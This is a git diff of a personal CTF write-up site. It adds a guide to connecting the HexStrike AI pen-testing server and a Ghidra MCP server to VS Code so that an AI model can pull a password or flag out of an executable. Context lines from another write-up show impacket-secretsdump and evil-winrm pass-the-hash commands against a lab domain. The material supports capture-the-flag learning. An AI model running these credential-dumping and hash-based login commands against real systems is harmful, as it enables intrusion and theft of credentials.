

GITBOOK-23: No subject

diff --git a/supercharging-reverse-engineering-using-vs-code-to-orchestrate-ghidra-and-hexstrike-ai.md b/supercharging-reverse-engineering-using-vs-code-to-orchestrate-ghidra-and-hexstrike-ai.md
@@ -1,0 +1,113 @@
+---
+description: 06 May 2026
+---
+
+# Supercharging Reverse Engineering: Using VS Code to Orchestrate Ghidra and HexStrike AI
+
+[https://medium.com/@fxxmm/supercharging-reverse-engineering-using-vs-code-to-orchestrate-ghidra-and-hexstrike-ai-7d520d306da5](https://medium.com/@fxxmm/supercharging-reverse-engineering-using-vs-code-to-orchestrate-ghidra-and-hexstrike-ai-7d520d306da5)
+
+### HexStrike AI Set-up:
+
+#### Clone the Repository:
+
+git clone https://github.com/0x4m4/hexstrike-ai.git
+
+cd hexstrike-ai
+
+#### Create a Virtual Environment:
+
+python3 -m venv hexstrike-env
+
+source hexstrike-env/bin/activate
+
+#### Install Dependencies:
+
+pip3 install -r requirements.txt
+
+Launch the Server:
+
+HexStrike usually runs on http://127.0.0.1:8889.
+
+Verify it's healthy by running: curl http://127.0.0.1:8889/health
+
+&#x20;
+
+### Connect
+
+#### Tab 1: Start the Core API Server This is the part that actually runs the hacking tools.
+
+cd \~/hexstrike-ai
+
+source hexstrike-env/bin/activate
+
+python3 hexstrike\_server.py
+
+&#x20;
+
+#### Tab 2: Start the MCP Bridge Now that the core is alive, restart the bridge so it can find it.
+
+cd \~/hexstrike-ai
+
+source hexstrike-env/bin/activate
+
+python3 hexstrike\_mcp.py
+
+
+
+![](<.gitbook/assets/unknown (25).png>)
+
+&#x20;
+
+![](<.gitbook/assets/unknown (26).png>)
+
+
+
+### Ghidra MCP
+
+[![](https://images.gitbook.com/__img/dpr=1.25,width=32,onerror=redirect,height=32,fit=contain,format=auto,signature=-477128472/https%3A%2F%2Fgithub.com%2Ffluidicon.png)Releases · symgraph/GhidrAssistMCPGitHub](https://github.com/symgraph/GhidrAssistMCP/releases)
+
+[![](https://images.gitbook.com/__img/dpr=1.25,width=32,onerror=redirect,height=32,fit=contain,format=auto,signature=-477128472/https%3A%2F%2Fgithub.com%2Ffluidicon.png)Releases · symgraph/GhidrAssistGitHub](https://github.com/symgraph/GhidrAssist/releases)
+
+Target: http://localhost:9090/sse
+
+![](<.gitbook/assets/unknown (27).png>)
+
+
+
+In VS Code, click on the third button to manage MCP servers.
+
+![](<.gitbook/assets/unknown (28).png>)
+
+<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
+
+Restart the MCP Server by letting Cline reload its configuration to see the new HexStrike Server. Click on the Manage MCP Servers button. If HexStrike does not show a green status light, click the Refresh or Restart button within that panel.
+
+![](<.gitbook/assets/unknown (29).png>)
+
+The green light next to hexstrike means the server is active and Cline is successfully connected to your pen-testing toolkit.
+
+
+
+<figure><img src=".gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>
+
+
+
+Get an API key from openrouter.ai.&#x20;
+
+<figure><img src=".gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>
+
+
+
+Feel free to try other models.
+
+Prompt Example:
+
+What is the main function?
+
+What is the password?
+
+Password or flag found in the exe in the Ghidra project.
+
+
+
+<figure><img src=".gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

diff --git a/csa-cympire-cywaria-2026.md b/csa-cympire-cywaria-2026.md
@@ -516,11 +516,11 @@ impacket-secretsdump -hashes :5f754bcffe28b5bb5a1581d9bbd4e98c 'iceberg.local/WI
 
 evil-winrm -i 44.221.50.166 -u 'TARGET\_USER' -H '\<HASH\_FROM\_CERTIPY>'
 
-<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
+<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>
 
 <figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>
 
-<figure><img src=".gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>
+<figure><img src=".gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>
 
 Btw, I know is iceberg.local because cannot connect to rdp, then I saw iceberg.local domain.
 

diff --git a/SUMMARY.md b/SUMMARY.md
@@ -1,6 +1,6 @@
 # Table of contents
 
 * [fxxmm CTF Page](README.md)
-* [Supercharging Reverse Engineering: Using VS Code to Orchestrate Ghidra and HexStrike AI](https://app.gitbook.com/s/RAJyy65YWfWsDOtt5DQG/)
+* [Supercharging Reverse Engineering: Using VS Code to Orchestrate Ghidra and HexStrike AI](supercharging-reverse-engineering-using-vs-code-to-orchestrate-ghidra-and-hexstrike-ai.md)
 * [CSA Cympire Cywaria 2026](csa-cympire-cywaria-2026.md)
 * [NahamCon 2025](nahamcon-2025.md)
